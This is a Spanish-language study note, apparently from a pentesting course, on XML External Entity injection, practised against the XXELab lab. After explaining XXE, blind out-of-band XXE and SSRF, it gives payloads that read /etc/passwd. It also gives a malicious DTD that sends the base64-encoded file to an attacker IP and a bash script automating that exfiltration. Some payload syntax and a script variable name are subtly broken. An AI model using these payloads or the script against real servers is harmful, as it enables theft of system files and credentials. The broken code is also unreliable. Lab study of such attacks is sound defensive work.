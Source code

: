 # # XML External Entity Injection (XXE)

Tags: #XXE #OWASP #Explotacion 

Cuando hablamos de **XML External Entity** (**XXE**) **Injection**, a lo que nos referimos es a una vulnerabilidad de seguridad en la que un atacante puede utilizar una entrada XML maliciosa para acceder a recursos del sistema que normalmente no estarían disponibles, como archivos locales o servicios de red. Esta vulnerabilidad puede ser explotada en aplicaciones que utilizan XML para procesar entradas, como aplicaciones web o servicios web.

Un ataque XXE generalmente implica la inyección de una **entidad** XML maliciosa en una solicitud HTTP, que es procesada por el servidor y puede resultar en la exposición de información sensible. Por ejemplo, un atacante podría inyectar una entidad XML que hace referencia a un archivo en el sistema del servidor y obtener información confidencial de ese archivo.

Un caso común en el que los atacantes pueden explotar XXE es cuando el servidor web no valida adecuadamente la entrada de datos XML que recibe. En este caso, un atacante puede inyectar una entidad XML maliciosa que contiene referencias a archivos del sistema que el servidor tiene acceso. Esto puede permitir que el atacante obtenga información sensible del sistema, como contraseñas, nombres de usuario, claves de API, entre otros datos confidenciales.

Cabe destacar que, en ocasiones, los ataques XML External Entity (XXE) Injection no siempre resultan en la exposición directa de información sensible en la respuesta del servidor. En algunos casos, el atacante debe “**ir a ciegas**” para obtener información confidencial a través de técnicas adicionales.

Una forma común de “ir a ciegas” en un ataque XXE es enviar peticiones especialmente diseñadas desde el servidor para conectarse a un **Document Type Definition** (**DTD**) definido externamente. El DTD se utiliza para validar la estructura de un archivo XML y puede contener referencias a recursos externos, como archivos en el sistema del servidor.

Este enfoque de “ir a ciegas” en un ataque XXE puede ser más lento y requiere más trabajo que una explotación directa de la vulnerabilidad. Sin embargo, puede ser efectivo en casos donde el atacante tiene una idea general de los recursos disponibles en el sistema y desea obtener información específica sin ser detectado.

Adicionalmente, en algunos casos, un ataque XXE puede ser utilizado como un vector de ataque para explotar una vulnerabilidad de tipo **SSRF** (**Server-Side Request Forgery**). Esta técnica de ataque puede permitir a un atacante escanear **puertos internos** en una máquina que, normalmente, están protegidos por un firewall externo.

Un ataque SSRF implica enviar solicitudes HTTP desde el servidor hacia direcciones IP o puertos internos de la red de la víctima. El ataque XXE se puede utilizar para desencadenar un SSRF al inyectar una entidad XML maliciosa que contiene una referencia a una dirección IP o puerto interno en la red del servidor.

Al explotar con éxito un SSRF, el atacante puede enviar solicitudes HTTP a servicios internos que de otra manera no estarían disponibles para la red externa. Esto puede permitir al atacante obtener **información sensible** o incluso **tomar el control** de los servicios internos.

A continuación, se proporciona el enlace al proyecto de GitHub correspondiente al laboratorio que estaremos desplegando en esta clase para practicar esta vulnerabilidad:

-   **XXELab**: [https://github.com/jbarone/xxelab](https://github.com/jbarone/xxelab)

![| 00x300](Pasted%20image%2020230420205723.png)
![00x300](Pasted%20image%2020230420205849.png)
![00x200](Pasted%20image%2020230420210056.png)
![00x200](Pasted%20image%2020230420210113.png)  ![00x200](Pasted%20image%2020230420210246.png)
![00x350](Pasted%20image%2020230420211907.png)
![00x280](Pasted%20image%2020230420212052.png)
También podemos explotar
![00x400](Pasted%20image%2020230421134216.png)

## XML en la web

* Usaremos XML como código para hacer los scripts. 
* El campo en donde debemos de fijarnos es aquel que el **Input** es el que nos representa en la web como **Output**

En el archivo XML debemos de colocar un DOCTYPE y ese es el que estaremos modificando
```xml
<?xml version="1.0" encoding="UTF-8"?>
	<DOCTYPE foo [<! ENTITY myName "omar">]>                                                        <!-- Colocamos lo que queremos que salga en el output de la web -->
	<root>
		<name>
			<email>
				&myFile;
			</email>
		</name>
	</root>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<DOCTYPE foo [<! ENTITY myFile SYSTEM "file:///etc/passwd">]>                                    <!-- Colocamos la ruta abosluta del archivo -->
	<root>
		<name>
			<email>
				&myFile;
			</email>
		</name>
	</root>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<DOCTYPE foo [<! ENTITY myFile SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]>    <!-- Representara el output en una sola linea en base64 -->
	<root>
		<name>
			<email>
				&myFile;
			</email>
		</name>
	</root>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<DOCTYPE foo [<! ENTITY myFile SYSTEM "http://192.168.68.108/testXXE">]>            <!-- Hara una peticion GET a nuestro servidor buscando el archivo testXXE -->
	<root>
		<name>
			<email>
				&myFile;                                                              <!-- Llamamos a la entidad desde aqui -->
			</email>
		</name>
	</root>
```

## **XXE OOB Blind**
Cuando no se puede llamar la entidad desde el campo seleccionado en la estructura, lo llamamos desde el DOCTYPE colocando el porcentaje al inicio y final con el nombre. El archivo debe de tener la extensión **.dtd**
```xml
<?xml version="1.0" encoding="UTF-8"?>
	<DOCTYPE foo [<! ENTITY % xxe SYSTEM "http://192.168.68.108/malicious.dtd"> %xxe;]>       <!-- Hara una peticion GET a nuestro servidor buscando el archivo testXXE -->
	<root>
		<name>
			<email>
				test@test.com                                                              <!-- Aveces no podemos llamar la entidad desde aqui -->
			</email>
		</name>
	</root>
```

* Así es como haríamos un archivo .dtd externo
```bash
❯ nvim malicious.dtd                        # Creamos el archivo malicioso
```

* Haremos que el output en base64 me lo envié a mi maquina de atacante como una petición por GET. Esto dentro del archivo  malicious.dtd
```xml
<! ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<! ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://192.168.68.108/?file=%file;' >">                  <!-- Debemos de colocar el % en HEX = 25 --> 
%eval;                                                                                                   <!-- Debemos de llamar a las entidades --> 
%exfil; 
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para recibir las peticiones 
```


Con este automatizas el proceso y puedes solicitar el archivo que quieras.
```bash
❯ nvim xxe_oob.sh                        # Creamos el archivo para automatizar el resultado final 
```

```bash
#!/bin/bash

echo -ne "[+] Introdiuce el archivo a leer: " && read -r myFilename

maliciuos_dtd="""
<! ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=$myFilename">
<! ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://192.168.68.108/?file=%file;'>">                  
%eval;                                                                                                    
%exfil; """

echo $malicious_dtd > malicious.dtd

python3 -m http.server 80 &>response &

PID=$!

sleep 1; echo

curl -s -X POST "http://localhost:5000/process.php" -d '<?xml version="1.0" encoding="UTF-8"?>
<DOCTYPE foo [<! ENTITY % xxe SYSTEM "http://192.168.68.108/malicious.dtd"> %xxe;]>      
<root><name><email>test@test.com</email></name></root>' &>/dev/null

cat response  | grep -oP "/?file=\K[^.*]+" | base64 -d

kill -9 $PID 
wait $PID 2>/dev/null

rm response 2>/dev/null

```